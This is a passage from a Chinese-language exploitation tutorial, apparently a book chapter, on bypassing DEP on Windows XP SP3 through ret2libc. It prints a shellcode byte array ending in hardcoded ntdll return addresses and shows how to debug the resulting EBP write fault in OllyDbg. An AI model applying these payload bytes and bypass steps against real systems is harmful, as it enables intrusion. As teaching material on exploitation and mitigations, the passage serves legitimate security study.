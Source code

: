 所以我们需要在这个位置放上 0x7C93CD24 以便让程序转入关闭 DEP 流程，我们为 shellcode 添加 4 个字节，并放置 0x7C93CD24，如下所示。 

```
charshellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
    "……" 
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址 
    "\x24\xCD\x93\x7C"//关闭 DEP 代码的起始位置 ; 
```

重新编译程序后，用 OllyDbg 重新加载程序，在 0x7C93CD6F，即关闭 DEP 后的 RETN 4 处下断点，然后让程序直接运行。但程序并没有像我们想象的那样在 0x7C93CD6F 处中断，而 是出现了异常。如图 12.3.6 所示，程序现在需要对 EBP-4 位置写入数据，但 EBP 在溢出的时 候被破坏了，目前 EBP-4 的位置并不可以写入，所以程序出现了写入异常，所以我们现在的 shellcode 布局是行不通的，在转入 0x7C93CD24 前我们需要将 EBP 指向一个可写的位置。 

<img src="images/09/ebp在溢出时被破坏.png">

我们可以通过类似``` PUSH ESP POP EBP RETN``` 的指令将 EBP 定位到一个可写的位置，依然请出我们的 OllyFindAddr 插件，我们可以在 Disable DEP <=XP SP3 搜索结果的 Setp3 部分查看 当前内存中所有符合条件的指令，如图 12.3.7 所示。 
 
<img src="images/09/修正EBP指令的搜索结果.png">
